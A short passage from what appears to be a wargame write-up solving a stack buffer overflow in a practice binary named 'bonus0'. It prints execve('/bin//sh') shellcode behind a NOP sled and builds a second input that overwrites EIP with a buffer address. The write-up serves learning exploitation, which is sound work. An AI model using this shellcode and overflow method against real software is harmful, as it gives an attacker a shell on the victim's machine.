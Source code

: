 So we want write the shellcode in the buffer, and copy the address of the buffer in the EIP to execute the shellcode.

First argument:
```bash
python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' > /tmp/first
```
For the second argument, we take the address of the buffer, and we add 80 bytes to be sure that the shellcode is executed (with `NOP` instructions). So we take `0xbfffe6d0` -> `\xd0\xe6\xff\xbf`.
Second argument:
```bash
python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "A" * 7' > /tmp/second
```

We run the program:
```bash
(cat /tmp/first; cat /tmp/second; cat) | ./bonus0
```